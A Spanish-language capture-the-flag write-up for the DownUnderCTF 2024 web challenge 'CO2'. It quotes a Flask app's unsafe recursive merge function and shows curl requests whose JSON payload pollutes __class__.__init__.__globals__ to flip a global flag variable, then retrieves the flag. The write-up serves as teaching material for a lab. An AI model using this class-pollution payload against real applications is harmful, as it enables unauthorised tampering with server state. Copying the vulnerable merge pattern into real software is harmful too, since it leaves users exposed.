


CO2
===========
---

- CTF URL: [CO2](https://play.duc.tf/challenges#co2-7)

---
Enunciado

```
A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.
```

---

### Recursos

- [Zip](./recurso/co2.zip)
- https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev/ (Server para vulnerar - es necesario recrear una nueva cada vez q se ejecuta la prueba)

---

### Solución



- Probamos el login y el register un par de trucos de mysql-injection pero ninguno parece hacer efecto
- Nos registramos normalmente
- Y luego de hacer el login vemos que tenemos mas opciones. 


- Se puede crear un post en el blog normalmente y dar de alta algunos feedbacks. 

Si miramos el codigo de la aplicación el archivo [routes](recurso/src/app/routes.py) tiene un endpoint para obtener el flag
```py
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```
y la variable flag está inicializada cómo `` flag = os.getenv("flag") ``
por lo tanto su valor se define desde una variable de entorno del sistema o la aplicación. Si pudieramos cambiar el valor a "true" probablemente obtendríamos el flag.

(Si le pegamos al endpoint get_flag, nos devuelve "Nope")

Mirando un poco mas los archivos de la aplicación, vemos que existe otro endpoint sospechoso

```py
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200
```
merge + save_feedback_to_disk => 
```py

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True

```

estos métodos tienen pinta de ser vulnerables, ya que escriben y sobreescriben directorios de la aplicación, con lo cual estoy seguro que se puede sobre escribir el valor de la variable de configuracion "flag".

Con dicha sospecha como punta de lanza, podemos hacer un POST con cualquier herramienta (curl, postman, etc) que con los datos precisos, sobreescriba el valor que nosotros necesitamos cambiar a true, utilizando la cookie de la sesion iniciada.

```shell
curl --location 'https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev//save_feedback' \
--header 'Cookie: session=.eJwlzj0OwjAMQOG7ZGZw_BO7vUzlxI5gTemEuDuV2N7bvk855srzWfb3uvJRjleUvWwN1GJ05qqgmelIph7MkTEhOiVIVZuSOgNAMo0zGzs1MnYWwEaTCWKQ3t8qu8WsKuZmqLIpU4NNeroL3IXYawwbiehYbsh15vpravn-AKGKLno.ZqcB8Q.cgtnVAMMcH3IOYiAd7D9LUo0ENw; session=.eJwlzj0OwjAMQOG7ZGZw_BO7vQxyYlsgMbViQtydSmzvbd-n3evI89H28teZt3Z_RtvbNkAt1mTuCpqZjmTqwRwZBTEpQbpaSWoFgGQaZw52GmTsLICDiglikV4_OrtFdRVzM1TZlGnAJjPdBa5CnD2WrUR0bBfkfebx1_T2_QHTai7F.ZqcFng.s9PbRBCJ3xOqAjBELlfElZ5N53A' \
--header 'Content-Type: application/json' \
--data '{
    "title": "test",
    "content": "test",
    "rating": "123",
    "referred": "test",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}'
```

Y nuevamente le pegamos al endpoin del /get_flag

```shell
curl --location --request GET 'https://web-co2-7c7e6b567a43f5e7.2024.ductf.dev/get_flag' \
--header 'Cookie: session=.eJwlzj0OwjAMQOG7ZGZw_BO7vUzlxI5gTemEuDuV2N7bvk855srzWfb3uvJRjleUvWwN1GJ05qqgmelIph7MkTEhOiVIVZuSOgNAMo0zGzs1MnYWwEaTCWKQ3t8qu8WsKuZmqLIpU4NNeroL3IXYawwbiehYbsh15vpravn-AKGKLno.ZqcB8Q.cgtnVAMMcH3IOYiAd7D9LUo0ENw; session=.eJwlzj0OwjAMQOG7ZGZw_BO7vQxyYlsgMbViQtydSmzvbd-n3evI89H28teZt3Z_RtvbNkAt1mTuCpqZjmTqwRwZBTEpQbpaSWoFgGQaZw52GmTsLICDiglikV4_OrtFdRVzM1TZlGnAJjPdBa5CnD2WrUR0bBfkfebx1_T2_QHTai7F.ZqcF8w.IHXLuRc9Zn8spGeu8ctbO6EdfC8' \
--header 'Content-Type: application/json' \
--data '{
    "title": "test",
    "content": "test",
    "rating": "123",
    "referred": "test",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}'
```


DUCTF{_cl455_p0lluti0n_ftw_}

(pd: [Class Pollution en python](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) )